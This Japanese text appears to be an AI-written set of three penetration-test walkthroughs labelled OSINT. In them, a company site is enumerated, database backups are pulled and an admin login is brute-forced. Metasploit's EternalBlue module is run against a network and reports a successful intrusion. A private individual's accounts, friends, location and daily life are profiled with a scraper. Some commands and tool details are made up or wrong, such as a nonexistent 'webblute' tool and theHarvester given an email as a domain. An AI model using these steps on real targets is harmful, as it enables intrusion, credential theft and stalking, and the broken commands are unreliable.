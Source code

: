 ### シナリオ1: 企業XのWebサーバーのOSINT

1. **ターゲットサイトのスキャン**
    - **目的**: 企業Xのメインサイトの技術スタックを把握する。
    - **手順**: Burp SuiteのSpider機能を使用し、企業Xのメインサイト（example.com）をスキャン。
    - **結果**: 使用しているCMSがWordPressであることを確認。`Target > Request > Connection` の値が `wp` であることを確認。

2. **サブドメイン列挙**
    - **目的**: 企業Xの関連サブドメインを把握する。
    - **手順**: Sublist3rを使用してサブドメインを列挙。
      ```shell
      sublist3r -d example.com
      ```
    - **結果**: `admin.example.com` という管理用サブドメインを確認。

3. **ディレクトリ列挙**
    - **目的**: 管理用サブドメインのディレクトリ構造を把握する。
    - **手順**: DirBusterを使用して `admin.example.com` に対してディレクトリ列挙を実行。
      ```shell
      dirb http://admin.example.com/
      ```
    - **結果**: `/backup` ディレクトリを確認。

4. **バックアップファイルの確認**
    - **目的**: バックアップファイルに機密データが含まれているか確認する。
    - **手順**: Burp Suiteのインターセプター機能を使用し、 `/backup` ディレクトリにアクセス。
    - **結果**: `/backup` ディレクトリに過去のデータベースバックアップが存在することを確認。SQLファイル内に機密データの存在を確認。

5. **ログインページへのブルートフォース**
    - **目的**: 管理用サブドメインのログインページに対する弱い認証情報を確認する。
    - **手順**: Burp SuiteのIntruder機能を使用し、 `admin.example.com` のログインページに対してブルートフォース攻撃を実施。以下のコマンドで実行。
      ```shell
      webblute -p -4 -w wordlist.txt
      ```
    - **結果**: `admin:password123` という弱い認証情報を確認。

### シナリオ2: 企業YのネットワークインフラのOSINT

1. **初期情報収集**
    - **目的**: 企業Yのネットワークインフラに関する基本情報を収集する。
    - **手順**: theHarvesterを使用して企業Yのドメイン（example2.com）に関する情報を収集。
      ```shell
      theHarvester -d example2.com -b all
      ```
    - **結果**: 電子メールアドレス、サブドメイン、IPアドレスを収集。

2. **ネットワークスキャン**
    - **目的**: 企業Yのネットワークインフラの詳細を把握する。
    - **手順**: Nmapを使用してネットワークスキャンを実施。
      ```shell
      nmap -sV -A example2.com
      ```
    - **結果**: 開放されているポート、サービスのバージョン情報、OS情報を収集。

3. **デバイス情報の収集**
    - **目的**: 企業Yのネットワークデバイスに関する情報を収集する。
    - **手順**: Shodanを使用してネットワークデバイスを検索。
      ```shell
      shodan search net:"example2.com"
      ```
    - **結果**: 企業Yのネットワークデバイス（ルーター、スイッチ、サーバーなど）の情報を収集。

4. **脆弱性スキャン**
    - **目的**: 企業Yのネットワークインフラの脆弱性を特定する。
    - **手順**: Burp SuiteのScanner機能を使用して、企業Yのネットワークに対して脆弱性スキャンを実施。
    - **結果**: 脆弱性の存在を確認し、詳細な情報を収集。

5. **攻撃シミュレーション**
    - **目的**: 企業Yのネットワークインフラに対する攻撃シミュレーションを実施し、脆弱性を検証する。
    - **手順**: Metasploitを使用して、特定の脆弱性を狙った攻撃をシミュレート。
      ```shell
      msfconsole
      use exploit/windows/smb/ms17_010_eternalblue
      set RHOST example2.com
      run
      ```
    - **結果**: 脆弱性を利用した攻撃が成功し、システムへの侵入を確認。

### シナリオ3: 個人ZのSNSアカウントのOSINT

1. **初期情報収集**
    - **目的**: 個人ZのSNSアカウントに関する基本情報を収集する。
    - **手順**: Maltegoを使用して、個人ZのSNSアカウントに関する情報を収集。
    - **結果**: 個人ZのSNSアカウント、友人関係、投稿内容、位置情報などを収集。

2. **アカウント情報の収集**
    - **目的**: 個人ZのSNSアカウントに関する詳細情報を収集する。
    - **手順**: theHarvesterを使用して、個人Zのメールアドレスを基にSNSアカウント情報を収集。
      ```shell
      theHarvester -d email@example.com -b all
      ```
    - **結果**: 個人ZのSNSアカウントに関連する情報を収集。

3. **投稿内容の分析**
    - **目的**: 個人ZのSNS投稿内容を分析し、個人情報を特定する。
    - **手順**: SNS投稿内容をScrapyなどのWebスクレイピングツールを使用して収集。
      ```python
      import scrapy

      class SNSPostSpider(scrapy.Spider):
          name = "sns_post"
          start_urls = ['https://www.example-sns.com/user/Z']

          def parse(self, response):
              for post in response.css('div.post'):
                  yield {
                      'date': post.css('span.date::text').get(),
                      'content': post.css('div.content::text').get(),
                  }
      ```
    - **結果**: 個人Zの投稿内容から、位置情報、趣味、日常生活に関する情報を収集。

4. **友人関係の分析**
    - **目的**: 個人Zの友人関係を分析し、関連する人物を特定する。
    - **手順**: Maltegoを使用して、個人Zの友人関係をグラフ化。
    - **結果**: 個人Zの友人関係と、それらの人物に関する情報を収集。

5. **プライバシー設定の評価**
    - **目的**: 個人ZのSNSアカウントのプライバシー設定を評価し、脆弱性を特定する。
    - **手順**: 個人ZのSNSアカウントにアクセスし、公開されている情報を確認。
    - **結果**: 公開設定になっている情報や、プライバシー設定の脆弱性を特定。

これらのシナリオに基づいて、Burp Suiteおよび他のOSINTツールを使用した具体的なペネトレーションテストの実践例を示しました。各シナリオでは、特定のターゲットに対して段階的に情報を収集し、潜在的な脆弱性を特定していくプロセスを示しています。